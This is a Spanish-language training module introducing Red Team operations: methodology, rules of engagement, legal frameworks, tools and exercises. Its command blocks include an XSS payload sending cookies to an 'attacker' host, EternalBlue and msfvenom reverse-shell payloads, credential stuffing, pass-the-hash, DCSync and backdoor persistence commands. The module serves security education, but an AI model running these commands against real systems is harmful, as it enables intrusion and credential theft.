

# 11 — Introducción a Red Team

> 🎯 **Objetivo:** entender qué es el Red Team, cómo opera profesionalmente, qué metodologías usa y cómo diferenciarse de un atacante real. Este módulo es tu puerta de entrada al mundo ofensivo profesional.

## 1. ¿Qué es Red Team?

### 1.1 Definición

El **Red Team** es un equipo de seguridad que simula ataques reales contra una organización para evaluar su capacidad de defensa. No es "hackear por hackear" — es **hackear con propósito, metodología y autorización**.

| Concepto | Definición |
|----------|------------|
| **Red Team** | Equipo ofensivo que simula amenazas reales |
| **Blue Team** | Equipo defensivo que protege y detecta |
| **Purple Team** | Colaboración entre Red y Blue para mejorar |
| **Penetration Testing** | Prueba técnica de vulnerabilidades (más limitado) |
| **Adversary Simulation** | Simulación completa de un adversario específico |

### 1.2 Red Team vs Pentesting

| Aspecto | Red Team | Pentesting |
|---------|----------|------------|
| **Alcance** | Toda la organización | Sistema específico |
| **Objetivo** | Evaluar capacidad de detección y respuesta | Encontrar vulnerabilidades |
| **Metodología** | MITRE ATT&CK, emulación de adversarios | OWASP, PTES |
| **Duración** | Semanas a meses | Días a semanas |
| **Autenticación** | Sin credenciales iniciales | Con o sin credenciales |
| **Stealth** | Operación sigilosa | Puede ser ruidoso |
| **Entregable** | Informe de madurez defensiva | Reporte de vulnerabilidades |

### 1.3 ¿Por qué Red Team?

```
┌─────────────────────────────────────────────────────────┐
│                    VALOR DEL RED TEAM                    │
├─────────────────────────────────────────────────────────┤
│  1. Descubre vulnerabilidades que scanners no encuentran │
│  2. Evalúa la respuesta real del equipo defensivo        │
│  3. Identifica gaps en monitoreo y detección             │
│  4. Valida controles de seguridad existentes             │
│  5. Proporciona métricas objetivas de madurez            │
│  6. Cumple requisitos de compliance (PCI, ISO, NIST)     │
└─────────────────────────────────────────────────────────┘
```

## 2. Metodología Red Team

### 2.1 Ciclo de vida de una operación Red Team



### 2.2 Pre-engagement (Antes de empezar)

```markdown
## Checklist Pre-engagement

### Documentos legales
- [ ] Contrato de prueba de penetración firmado
- [ ] Autorización explícita (Rules of Engagement)
- [ ] Alcance definido (IPs, dominios, aplicaciones)
- [ ] Exclusiones claras (qué NO se puede tocar)
- [ ] Contacto de emergencia (CISO, IT Director)
- [ ] Acuerdo de confidencialidad (NDA)

### Scope Definition
- In scope: 192.168.0.0/16, *.empresa.com
- Out of scope: Production databases, SCADA systems
- Testing window: Lunes-Viernes, 9am-6pm
- Emergency contact: +52 55 1234 5678

### Objetivos
- [ ] Obtener acceso a Active Directory
- [ ] Exfiltrar datos sensibles (simulados)
- [ ] Evaluar tiempo de detección del SOC
- [ ] Probar respuesta del equipo de incidentes
```

### 2.3 Reconocimiento (Recon)

```bash
# === RECON PASIVO ===

# OSINT de dominio
whois empresa.com
dig empresa.com A MX NS TXT
subfinder -d empresa.com -silent

# Redes sociales
# LinkedIn: buscar empleados, roles, tecnologías
# GitHub: buscar repositorios, secrets, código interno

# Certificate Transparency
crt.sh/?q=%.empresa.com

# === RECON ACTIVO ===

# Descubrimiento de hosts
nmap -sn 192.168.0.0/16

# Escaneo de puertos
nmap -sS -sV -p- --open 192.168.1.0/24

# Enumeración de servicios
nmap --script=http-enum -p 80,443 target
nmap --script=smb-enum-shares -p 445 target
```

### 2.4 Explotación

```bash
# === FASE DE EXPLOTACIÓN ===

# 1. Vulnerabilidades conocidas
searchsploit apache 2.4.49
nuclei -u http://target -severity critical,high

# 2. Explotación con Metasploit
msfconsole -q
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target
exploit

# 3. Explotación manual
# SQL Injection
sqlmap -u "http://target/page?id=1" --os-shell

# XSS
<script>fetch('http://attacker/steal?c='+document.cookie)</script>

# 4. Credential stuffing
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://target
```

### 2.5 Post-Explotación

```bash
# === POST-EXPLOTACIÓN ===

# 1. Enumeración del sistema
sysinfo
getuid
hashdump

# 2. Escalada de privilegios
# Linux
find / -perm -4000 2>/devenos
sudo -l

# Windows
whoami /priv
systeminfo | findstr /B "OS Name OS Version"

# 3. Movimiento lateral
# Pass the Hash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:da76f...
# Kerberoasting
impacket-GetUserSPNs corp.local/user:password -request

# 4. Exfiltración de datos
# Crear canal C2
# Exfiltrar datos ofuscados
```

### 2.6 Persistencia

```bash
# === PERSISTENCIA (solo en laboratorio) ===

# Linux
# Cron job
echo "*/5 * * * * /tmp/.backdoor" | crontab -
# SSH key
echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys

# Windows
# Registry run key
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "update" /d "C:\Temp\backdoor.exe"
# Scheduled Task
schtasks /create /tn "update" /tr "C:\Temp\backdoor.exe" /sc hourly
```

## 3. Herramientas del Red Team

### 3.1 Stack herramientas

| Categoría | Herramientas |
|-----------|-------------|
| **Recon** | Nmap, Subfinder, Amass, theHarvester, Recon-ng |
| **Explotación** | Metasploit, SearchSploit, Nuclei, SQLMap |
| **Web** | Burp Suite, OWASP ZAP, Nikto, Gobuster |
| **Post-Explotación** | Metasploit, Cobalt Strike, Sliver, Havoc |
| **Credential** | Hashcat, John the Ripper, Mimikatz, Impacket |
| **Lateral** | CrackMapExec, Evil-WinRM, PsExec |
| **C2** | Cobalt Strike, Sliver, Havoc, Mythic |
| **Reporting** | Dradis, Pacu, Custom scripts |

### 3.2 Metasploit Framework

```bash
# Iniciar
msfconsole -q

# Buscar exploits
search type:exploit platform:windows smb
search ms17-010

# Configurar exploit
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 192.168.1.10
set LHOST 192.168.1.100
exploit

# Post-explotación
sessions -l
sessions -i 1
sysinfo
getuid
hashdump

# Generar payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
```

### 3.3 Impacket Suite

```bash
# Pass the Hash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:da76f2b281b...

# Kerberoasting
impacket-GetUserSPNs corp.local/user:password -request

# DCSync
impacket-secretsdump corp.local/admin:password@dc01

# Evil-WinRM
evil-winrm -i 192.168.1.10 -u administrator -p password
```

### 3.4 CrackMapExec

```bash
# SMB enumeration
crackmapexec smb 192.168.1.0/24

# Execute commands
crackmapexec smb 192.168.1.10 -u admin -p pass --exec-method smbexec "whoami"

# Dump hashes
crackmapexec smb 192.168.1.10 -u admin -p pass --sam

# Lateral movement
crackmapexec smb 192.168.1.0/24 -u admin -p pass --local-auth --lsa
```

## 4. Marco Legal y Ético

### 4.1 Marco legal

| País | Ley | Detalle |
|------|-----|---------|
| **Colombia** | Ley 1273/2009 | Delitos informáticos, acceso no autorizado |
| **México** | CFF Art. 211 | Acceso ilícito a sistemas informáticos |
| **España** | LO 3/2018 | Protección de datos y delitos informáticos |
| **EEUU** | CFAA | Computer Fraud and Abuse Act |
| **Europa** | NIS2 | Directiva de seguridad de redes |

### 4.2 Reglas de oro del Red Team

```
┌─────────────────────────────────────────────────────────┐
│                 REGLAS DEL RED TEAM                     │
├─────────────────────────────────────────────────────────┤
│  1. NUNCA actúes sin autorización escrita               │
│  2. Respeta el alcance (scope) definido                 │
│  3. No dañes sistemas de producción                     │
│  4. Documenta TODO lo que haces                         │
│  5. Reporta vulnerabilidades críticas inmediatamente    │
│  6. Mantén confidencialidad de hallazgos                │
│  7. No accedas a datos reales de usuarios               │
│  8. Siempre ten un plan de salida                       │
│  9. Respeta la privacidad                               │
│  10. Recuerda: eres un profesional, no un criminal      │
└─────────────────────────────────────────────────────────┘
```

### 4.3 Rules of Engagement (RoE)

```markdown
## Rules of Engagement — Operación Red Team

### Alcance
- IP ranges: 192.168.0.0/16, 10.0.0.0/8
- Domains: *.empresa.com
- Applications: webapp.empresa.com, api.empresa.com

### Exclusiones
- Production databases (no acceder a datos reales)
- SCADA/ICS systems
- Third-party services
- Employee personal devices

### Testing Window
- Horario: Lunes a Viernes, 9:00 - 18:00
- Excepciones: acordar con CISO

### Comunicación
- Canal Slack: #red-team-ops
- Emergencias: +52 55 1234 5678 (CISO)
- Daily standup: 10:00 AM

### Reglas
- No causar denegación de servicio
- No modificar configuraciones de producción
- No acceder a datos personales
- Reportar vulnerabilidades críticas inmediatamente
- Usar credenciales solo para pruebas autorizadas
```

## 5. Ejercicios Prácticos

### Ejercicio 1: Crea tu propio Rules of Engagement

Crea un documento RoE para una operación ficticia:

```markdown
# Rules of Engagement — Operación Red Team

## Empresa: TechCorp S.A.
## Fecha: [Fecha actual]
## Duración: 4 semanas

## Alcance
[Define IPs, dominios, aplicaciones]

## Exclusiones
[Qué NO se puede tocar]

## Objetivos
1. [Objetivo 1]
2. [Objetivo 2]
3. [Objetivo 3]

## Comunicación
- Contacto principal: [Nombre]
- Canal de comunicación: [Slack/Teams]
- Emergencias: [Teléfono]

## Reglas
[Listado de reglas]
```

### Ejercicio 2: Reconocimiento completo

```bash
# 1. Define tu objetivo (en lab controlado)
TARGET="192.168.1.0/24"

# 2. Recon pasivo
whois $TARGET
dig empresa.local A MX NS

# 3. Recon activo
nmap -sn $TARGET
nmap -sV -sC -p- --open $TARGET

# 4. Enumeración
nmap --script=http-enum -p 80,443 $TARGET
enum4linux -a $TARGET

# 5. Documenta todo en reporte.md
```

### Ejercicio 3: Explotación en lab

```bash
# 1. Levantar lab vulnerable
cd labs/intermedio/pentest-01/
docker compose up -d

# 2. Escaneo
nmap -sV -sC 172.30.0.0/24

# 3. Buscar exploits
searchsploit [servicio_version]

# 4. Explotar
msfconsole -q
use exploit/...
set RHOSTS target
exploit

# 5. Documentar hallazgos
```

### Ejercicio 4: Reporte Red Team

Crea un reporte profesional:

```markdown
# Reporte Red Team — Operación [Nombre]

## Resumen Ejecutivo
- Duración: [X semanas]
- Alcance: [Descripción]
- Hallazgos: [Críticos/Altos/Medios/Bajos]
- Tiempo de detección promedio: [X horas]

## Objetivos
| # | Objetivo | Estado |
|---|----------|--------|
| 1 | Obtener acceso inicial | ✅ |
| 2 | Escalar a Domain Admin | ✅ |
| 3 | Exfiltrar datos simulados | ✅ |
| 4 | Evaluar respuesta del SOC | ❌ |

## Timeline
| Fecha | Actividad | Resultado |
|-------|-----------|-----------|
| Día 1-3 | Reconocimiento | 15 hosts, 50 puertos |
| Día 4-7 | Explotación | 3 vulnerabilidades explotadas |
| Día 8-14 | Post-explotación | Domain Admin obtenido |

## Hallazgos
### H-001: Explotación inicial
- Severidad: CRÍTICA
- Descripción: [Descripción]
- Evidencia: [Comandos ejecutados]
- Impacto: [CIA]
- Remediación: [Recomendación]

## Recomendaciones
1. [Recomendación 1]
2. [Recomendación 2]
3. [Recomendación 3]

## Conclusión
[Resumen de madurez defensiva]
```

## 6. Frameworks de Referencia

### 6.1 MITRE ATT&CK

```
┌─────────────────────────────────────────────────────────┐
│                  MITRE ATT&CK FRAMEWORK                 │
├─────────────────────────────────────────────────────────┤
│  RECONNAISSANCE → RESOURCE DEVELOPMENT → INITIAL ACCESS │
│       ↓                    ↓                    ↓       │
│  EXECUTION → PERSISTENCE → PRIV ESCALATION             │
│       ↓                    ↓                    ↓       │
│  DEFENSE EVASION → CREDENTIAL ACCESS → DISCOVERY       │
│       ↓                    ↓                    ↓       │
│  LATERAL MOVEMENT → COLLECTION → COMMAND & CONTROL     │
│       ↓                    ↓                    ↓       │
│  EXFILTRATION → IMPACT                                  │
└─────────────────────────────────────────────────────────┘
```

### 6.2 PTES (Penetration Testing Execution Standard)

```
1. Pre-engagement    → Scope, rules, authorization
2. Intelligence      → OSINT, recon pasivo/activo
3. Threat Modeling   → Identificar amenazas relevantes
4. Vulnerability     → Escaneo y análisis
5. Exploitation      → Explotación controlada
6. Post-Exploitation → Escalada, movimiento lateral
7. Reporting         → Documentación completa
```

### 6.3 OWASP Testing Guide

```
1. Phase 1: Before Development Begins
2. Phase 2: During Design and Development
3. Phase 3: During Deployment
4. Phase 4: During Runtime
```

## 7. Recursos para seguir aprendiendo

| Recurso | Descripción | Costo |
|---------|-------------|-------|
| [HackTheBox](https://www.hackthebox.com/) | Plataforma de práctica | Gratis/Premium |
| [TryHackMe](https://tryhackme.com/) | Labs guiados | Gratis/Premium |
| [VulnHub](https://www.vulnhub.com/) | VMs vulnerables | Gratis |
| [PentesterLab](https://pentesterlab.com/) | Exercicios web | Premium |
| [SANS SEC560](https://www.sans.org/cyber-security-courses/network-penetration-testing-ethical-hacking/) | Curso profesional | $7,000+ |
| [OSCP](https://www.offensive-security.com/pwk-oscp/) | Certificación | $1,599 |
| [CRTP](https://www.alteredsecurity.com/certified-red-team-professional) | Active Directory | $249 |
| [BTL1](https://www.securityblue.team/) | Blue Team Level 1 | $499 |

## 📌 Checkpoint final

Antes de avanzar a los módulos especializados, verifica que puedes:

- [ ] Explicar la diferencia entre Red Team y Pentesting
- [ ] Crear un Rules of Engagement completo
- [ ] Ejecutar reconocimiento pasivo y activo
- [ ] Usar Metasploit para explotación básica
- [ ] Realizar post-explotación básica
- [ ] Crear un reporte Red Team profesional
- [ ] Entender el marco legal del hacking ético
- [ ] Conocer MITRE ATT&CK y sus tácticas

> ⏭️ **Siguiente:** [`02-pentesting-red-team.md`](./02-pentesting-red-team.md) — Ciclo completo de pentesting sobre labs.
